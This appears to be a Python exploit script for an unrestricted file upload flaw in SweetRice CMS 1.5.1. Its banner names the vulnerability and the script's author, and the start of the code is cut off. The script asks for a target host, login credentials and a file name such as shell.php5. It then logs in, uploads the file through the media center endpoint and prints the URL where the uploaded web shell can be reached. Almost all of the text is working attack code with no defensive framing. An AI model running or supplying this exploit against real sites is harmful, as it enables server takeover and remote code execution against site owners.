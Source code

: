 ```
    os.system('clear')
    pass
banner = '''
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \\ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \\     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
'''

print(banner)


# Get Host & User & Pass & filename
host = input("Enter The Target URL(Example : localhost.com) : ")
username = input("Enter Username : ")
password = input("Enter Password : ")
filename = input("Enter FileName (Example:.htaccess,shell.php5,index.html) : ")
file = {'upload[]': open(filename, 'rb')}

payload = {
    'user':username,
    'passwd':password,
    'rememberMe':''
}



with session() as r:
    login = r.post('http://' + host + '/as/?type=signin', data=payload)
    success = 'Login success'
    if login.status_code == 200:
        print("[+] Sending User&Pass...")
        if login.text.find(success) > 1:
            print("[+] Login Succssfully...")
        else:
            print("[-] User or Pass is incorrent...")
            print("Good Bye...")
            exit()
            pass
        pass
    uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
    if uploadfile.status_code == 200:
        print("[+] File Uploaded...")
        print("[+] URL : http://" + host + "/attachment/" + filename)
        pass
```
